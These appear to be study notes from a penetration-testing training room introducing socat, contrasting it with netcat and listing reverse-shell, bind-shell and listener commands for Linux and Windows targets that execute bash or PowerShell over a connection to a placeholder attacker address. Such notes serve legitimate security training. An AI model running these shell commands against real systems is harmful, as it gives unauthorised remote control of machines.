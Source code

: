 Socat is like netcat on steroids. It can do all of the same things, and _many_ more. Socat shells are usually more stable than netcat shells out of the box. In this sense it is vastly superior to netcat; however, there are two big catches:

1. The syntax is more difficult
2. Netcat is installed on virtually every Linux distribution by default. Socat is very rarely installed by default.

Socat is similar to netcat in some ways, but fundamentally different in many others. The easiest way to think about socat is as a connector between two points. In the interests of this room, this will essentially be a listening port and the keyboard, however, it could also be a listening port and a file, or indeed, two listening ports. All socat does is provide a link between two points -- much like the portal gun from the Portal games!


- **_Reverse Shells_**

Reverse shell listener in socat:  

```
socat TCP-L:<port> -
```

Windows command to connect back:

```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

The "pipes" option is used to force PowerShell (or cmd.exe) to use Unix style standard input and output.  

Linux Target:

```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li" 
```


- **_Bind Shells_**

Linux Target:

```
socat TCP-L:<PORT> EXEC:"bash -li"  
```

Windows Target:

```
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

Attacking machine command:

```
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```